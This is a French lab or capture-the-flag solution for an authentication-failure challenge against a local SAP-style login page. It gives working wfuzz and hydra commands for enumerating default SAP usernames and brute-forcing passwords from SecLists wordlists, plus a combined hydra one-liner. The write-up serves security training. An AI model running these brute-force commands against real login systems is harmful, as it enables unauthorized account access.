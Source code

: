 # Solution
## A07 - Identification et authentification de mauvaise qualité

Nous pouvons voir que nous avons SAP Connexion, c'est donc une connexion pour un serveur SAP. Nous avons une liste des utilisateurs par défaut ici : https://github.com/danielmiessler/SecLists/blob/master/Usernames/sap-default-usernames.txt
Nous pouvons donc lancer des attaques par force brute sur ces utilisateurs. Nous pouvons utiliser hydra ou des outils de fuzzing pour cela :
```bash
wfuzz -z file,/usr/share/wordlists/seclists/Usernames/sap-default-usernames.txt -d "username=FUZZ&password=test" http://localhost:8042/login.php
```

Avec hydra :
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/sap-default-usernames.txt -p test -s 8042 localhost http-post-form "/login.php:username=^USER^&password=^PASS^:Nom d'utilisateur incorrect"
```
Nous pouvons voir que nous avons trouvé un utilisateur via ce fuzzing. Nous pouvons donc lancer une attaque par force brute sur les mots de passe.

Pour les mots de passe nous pouvons utiliser tout d'abord le fichier 10-million-password-list-top-100.txt dans SecLists. Nous pouvons aussi utiliser rockyou.txt.

Nous avons :
```bash
wfuzz -z file,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -d "username=<USER>&password=FUZZ" http://localhost:8042/login.php
```

et avec hydra :
```bash
hydra -l SOLMAN_ADMIN -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -s 8042 localhost http-post-form "/login.php:username=^USER^&password=^PASS^:Mot de passe incorrect"
```

Nous obtenons le flag en trouvant le bon utilisateur et le bon mot de passe, ici il faut regarder le nombre de caractères que la page nous renvoie pour savoir si le mot de passe est bon ou non.

# One command hydra

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/sap-default-usernames.txt -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -s 8042 localhost http-post-form "/login.php:username=^USER^&password=^PASS^:incorrect"
```
